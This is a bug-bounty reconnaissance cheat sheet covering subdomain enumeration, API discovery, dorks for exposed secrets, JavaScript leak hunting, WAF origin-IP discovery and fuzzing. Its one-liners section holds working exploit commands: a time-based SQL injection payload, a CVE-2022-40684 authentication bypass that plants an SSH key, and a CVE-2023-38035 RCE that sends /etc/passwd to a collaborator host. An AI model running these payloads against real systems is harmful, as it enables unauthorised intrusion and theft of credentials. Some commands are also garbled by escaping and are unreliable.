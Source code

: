 # Reconnaissance

## Subdomain Enumeration

> **Tools**

* https://github.com/h0tak88r/AutoSubRecon
* [https://github.com/h0tak88r/reconraptor](https://github.com/h0tak88r/reconraptor)
* [https://github.com/h0tak88r/subfalcon](https://github.com/h0tak88r/subfalcon)
* https://github.com/h0tak88r/submonit88r
* https://github.com/bing0o/SubEnum
* https://github.com/shmilylty/OneForAll

> **Write ups**

* https://h0tak88r.medium.com/mastering-subdomain-enumeration-6c84571b07b
* [#subdomain-enumeration](./#subdomain-enumeration "mention")

## API Recon

1. Check for documentation
   * Swagger -> `/openapi.json`
   * GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema
   * manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
   * `site:target.tld inurl:api`
   * `intitle:"index of" "api.yaml" site:target.tld`
   * `intitle:"index of" intext:"apikey.txt" site:target.tld`
   * `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
   * https://wordlists-cdn.assetnote.io/data/automated/httparchive\_apiroutes\_2023\_08\_28.txt
   * swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
   * Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

## One-liners & Quick Wins

```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```

***

## Fingerprinting

*   Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)

    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
*   Waf Detect

    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
*   [**uncover**](https://github.com/projectdiscovery/uncover) >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.

    ```python
    # installation
    go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
    # configuration file 
    $HOME/.config/uncover/provider-config.yaml
    # usage
    uncover -q "test.com" -e censys,fofa,shodan
    ```

## JS Files

> **Tools**

* [Scripts/python scripts/JS\_Leaks\_spider.py](https://github.com/h0tak88r/Scripts/blob/main/python%20scripts/JS_Leaks_spider.py)
* Use This Extension to analyse JS Files [FindSomething - Chrome Web Store (google.com)](https://chrome.google.com/webstore/detail/findsomething/kfhniponecokdefffkpagipffdefeldb/related)
* [Can analyzing javascript files lead to remote code execution? | by Asem Eleraky | Medium](https://melotover.medium.com/can-analyzing-javascript-files-lead-to-remote-code-execution-f24112f1aa1f)

```bash
# Collect JS Files
katana -list targets.txt -jc | grep “\\.js$” | uniq | sort -u | tee JS.txt

# or use gau tool
cat targets.txt | gau |  grep “\\.js$” | uniq | sort -u | tee JS2.txt

# Analyzing JS files
nuclei -l JS.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
nuclei -l JS2.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
cat Js_urls.txt | Mantra



# Download all JS files 
file="JS.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

file="JS2.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

# Use This Regex to search for sensitive info 
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret|smtp|GTM-" *.js

```

## Bypass WAF and Find Origin IPs

### Using hakoriginfinder&#x20;

* References:
* &#x20;[https://x.com/Jayesh25\_/status/1735240906750443851?s=35](https://x.com/Jayesh25_/status/1735240906750443851?s=35)
* [https://github.com/hakluke/hakoriginfinder](https://github.com/hakluke/hakoriginfinder)

1. Discover your target's ASN and check [https://bgp.he.net/AS33848#\_prefixes…](https://t.co/0pQS70hOLL) &#x20;
2. Make a note of the target's IP range.&#x20;
3. Assuming you have a WAF-protected domain called example\[.]com. Use this command with the IP range Identified in step 1 and pass your target host against the -h parameter:

```bash
prips 93.184.216.0/24 | hakoriginfinder -h example.com
```

If you receive a "MATCH" output, there's a strong likelihood that you've successfully identified the Origin IP. Now, you can send requests with the same Host header to bypass WAF

### Using Netlas/Shodan&#x20;

* [https://x.com/Jayesh25\_/status/1843646332239544341](https://x.com/Jayesh25_/status/1843646332239544341)

1. Go to [Netlas](https://app.netlas.io/registration/), [shodan](https://www.shodan.io/), SecurityTrails or other similar platforms&#x20;
2. &#x20;Make filters like `http.title:"My_target_title"`
3. Sometyimes There is Origin IPs exposed

## Fuzzing Tips

````
Use Some Hash's And Encoding Algorithm's (MD5 , SHA-1 , SHA-256 , base32 , base64 , etc . . . )
From Most Common WordList Content Discovery With Common Extensions , Say :
https://example*com/<HashValue>.php
https://example*com/Fuzz/<Encoding>.php
https://example*com/Fuzz/<HashValue>.asp , . . .
--
Use Random Bytes With base64 To Fuzz Sensitive Fails , With Extension Or Not , Say:
https://example*com/path/<RandomBytes-Base64>.php 
https://example*com/path/<RandomBytes-Base64>
--
- Generate Wordlist Examples 
```
cat  common.txt | while read word; do echo -n "$word" | base64 | tee -a base64-wordlist.txt ; done
cat wordlist.txt | while read word; do echo -n "$word" | md5sum | cut -d ' ' -f1 | tee -a MD5-Hashs.txt; done
```
uploads => 5128f35c9b4be13788ba41bdb6d1fc1f
cmd => dfff0a7fa1a55c8c1a4966c19f6da452
index => aW5keAo=
. . .
https://examples*com/path/5128f35c9b4be13788ba41bdb6d1fc1f
https://examples*com/path/dfff0a7fa1a55c8c1a4966c19f6da452.php
https://examples*com/path/aW5keAo=.bak
. . .
- Say In Ffuf
ffuf -w MD5-Hashs.txt:/W1 -w extensions.txt:/W2 -u "https://example*com/path/W1.W2" -mc 200
ffuf -w base64-wordlist.txt:/W1 -w extensions.txt:/W2 -u "https://example*com/path/W1.W2" -mc 200
-- 
U Can After get 200 Status Code From Fails With Extension  , Discover Parameters Using (arjun, ParamSpider , etc . . . ) Tools
https://examples*com/path/dfff0a7fa1a55c8c1a4966c19f6da452.php?cmd=
etc . . .
--
````



{% embed url="https://www.facebook.com/100085121092587/posts/pfbid0du1bMhQZwbqfNNQy1u9NGqQHrQoiLJhLBMGLCAjmSdqApWDHPoTKzH3ZwKpaZXrVl/?app=fbl" %}

